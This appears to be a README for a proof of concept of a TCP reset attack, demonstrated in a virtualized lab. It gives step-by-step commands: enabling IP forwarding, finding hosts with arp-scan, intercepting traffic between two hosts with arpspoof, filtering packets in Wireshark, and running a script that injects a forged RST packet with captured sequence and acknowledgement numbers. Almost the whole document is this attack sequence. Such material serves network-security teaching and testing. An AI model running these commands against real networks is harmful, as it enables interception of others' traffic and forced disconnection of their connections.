 # TCP-reset-attack-PoC
A PoC that proves the TCP reset attack.
All the logical addresses, port, Sequence number and Acknowledgement number values in the following
commands are just examples. To be noticed that all the machines are each on a virtualized environment.
Steps:
1) Enable the IP forwarding on the attacker system:
echo 1 > /proc/sys/net/ipv4/ip_forward

2) We use the arp-scan command to find the IP addresses of the machines connected to the local network:
arp-scan -interface=eth0 –localnet

3) We used arpspoofing to intercept the traffic between the host A and host B using the IP addresses found in the last
step. Notice that the two hosts have the 192.168.0.40, respectively 192.168.0.39 IP addresses.
arpspoof -i eth0 -t 192.168.0.39 192.168.0.40
arpspoof -i eth0 -t 192.168.0.40 192.168.0.39

4) Next we filter the traffic to see only the packets we are interested on using Wireshark:
(ip.src==192.168.0.40&ip.dst==192.168.0.39)||(ip.src==192.168.0.39&ip.dst==192.168.0.40)

5) This way we find the application ports of both hosts, and also from the last packets we are able to get the right
Acknowledgement number and Sequence number to attack host A. Next we send a forged TCP packet with RST bit
set and the correct Sequence number and Acknowledgement number to the host A and therefore host A closes the
connection.
python script.py -S 192.168.0.40 -s 23 -D 192.168.0.39 -d 50638 -a 2620146587 -q 1393205321


Article at: https://www.overleaf.com/read/cdsdbgcmkhvg
